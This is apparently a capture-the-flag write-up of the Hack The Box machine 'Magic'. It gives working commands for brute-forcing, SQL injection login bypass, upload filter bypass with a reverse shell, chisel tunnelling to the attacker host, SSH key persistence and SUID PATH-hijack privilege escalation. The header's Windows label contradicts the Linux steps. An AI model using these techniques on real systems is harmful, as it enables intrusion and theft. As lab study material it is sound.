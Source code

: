 ```yaml
---
date: 2025-03-20
categories: [Windows, Medium]
---
```


![Magic](https://labs.hackthebox.com/storage/avatars/73eebbbdfbbfd46258ea2ae7e52d9479.png)

---

| **Created by** | **Page**     | **Difficulty** | **OS**  |
|-------------|--------------|----------------|---------|
| [TRX](https://app.hackthebox.com/users/31190)        | [Hack The Box](https://www.hackthebox.com/)     | Medium           | Windows   |

---







- The first step is to perform a scan of the open ports and then list the versions and technologies used on the open ports.
	
	```python
	nmap -p- --open -vvv --min-rate 3000 -Pn -sS 10.10.10.185 -oG scan
	/opt/extractports scan
	nmap -p22,80 -sCV -Pn 10.10.10.185 -oN ports
	```
	
	![image](https://github.com/user-attachments/assets/c924bb8b-f41d-47c7-9ee2-ef1d5f3d6ccb)

- I access the website and find a section to log in. Inside it I try with typical credentials and I can't access.
- I search for file with php extension and I manage to find “upload.php”. This fuzzing I pass it through [Caido](https://github.com/caido/caido) and I get to see the content of the page as a response. Inside the page I see that there is the Admin user.

	```python
	ffuf -c -t 200 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://10.10.10.185/FUZZ.php
	```
	
	![image](https://github.com/user-attachments/assets/f3c54b6a-7441-428c-bab0-4993e88172a9)

- I perform a brute force attack on the login panel to find the admin user password. I notice that if the password contains “sleep”, it does not show me the error message. This tells me that it may be a vulnerable panel.

	```python
	hydra  -l '' -P /usr/share/wordlists/rockyou.txt -f -v 10.10.10.185 http-post-form "/login.php:username=Admin&password=^PASS^:rong Username or P" 
	```

- With this behavior in mind, I perform some basic MySQL injection attacks and manage to find one that allows me to login as admin without knowing your password.

	```python
	'||1=1#
	```

- I find a panel that allows me to upload files. It limits me to have jpg, jpeg or png extension.
- I try to change extensions, combine them and add magic numbers at the beginning and I manage to find a way to bypass and upload malicious files.I use [Exploit-notes](https://exploit-notes.hdks.org/exploit/web/security-risk/file-upload-attack/) to test magic numbers.

	![image](https://github.com/user-attachments/assets/84b840e5-94dd-47bc-b955-632b41094486)

- I add as content a [pentestmonkey reverse shell](https://github.com/pentestmonkey/php-reverse-shell) and I get an interactive console. For convenience I generate a new bash

	```python
	python3 -c 'import pty; pty.spawn("/bin/bash")'
	```

- Being www-data I search in the files of the web page and inside db.php5 I find the credentials to connect to MySQL.

	![image](https://github.com/user-attachments/assets/6dec0c67-365e-4de7-a99e-4c5e26f51120)

- The system does not have mysql installer, I share port 3306 to my machine to be able to consult the content of the DDBB.

	```python
	./chisel server --reverse -p 1235
	./chisel client 10.10.14.21:1235 R:3306:127.0.0.1:3306 &
	
	mysql -u theseus -piamkingtheseus -D Magic  -h 127.0.0.1
	```

- Inside the DDBB I find the credential to connect to the login panel at the beginning, I verify the reuse of the password with the only user of the system and I manage to become theseus.

  ![image](https://github.com/user-attachments/assets/32641266-9c0b-423b-87d6-38752162bdb7)

- I generate an ssh key to be able to connect more easily. As I am the user theseus I can read the first flag found in my working directory.

	```python
	ssh-keygen -f key
	cat key.pub >> /home/theseus/.ssh/authorized_keys
	ssh -i key theseus@10.10.10.185
	```

	![image](https://github.com/user-attachments/assets/d75da9cf-0cf4-44ba-966f-298a6682bb4f)

- I look for how the user theseus the binaries with SUID permissions and I find one that is not common, /bin/sysinfo

	```python
	find / -perm -4000 2>/dev/null
	```

- Running this binary displays a lot of information. When consulting it in detail I find a part that shows an error message. I decide to consult the calls that it makes behind and I observe that several calls are made to binaries with relative paths.
	
	```python
	ltrace /bin/sysinfo
	```
	
	![image](https://github.com/user-attachments/assets/4e673998-f6f8-4a19-ab3b-77aa7040d954)

- I focus on fdisk, I create a file with execute permissions in a directory that has permissions. As content I put it to change the binary /bin/bash to SUID. I export the path so that it starts looking for the directory that contains my exploit and when executing the sysinfo binary again I manage to change that my exploit is executed and that it changes the permissions. Thanks to this I can become root and I can read the second flag.

	```python
	#!/bin/bash
	chmod u+s /bin/bash
	
	export PATH="/tmp:$PATH"
	
	/bin/sysinfo
	
	bash -p
	```
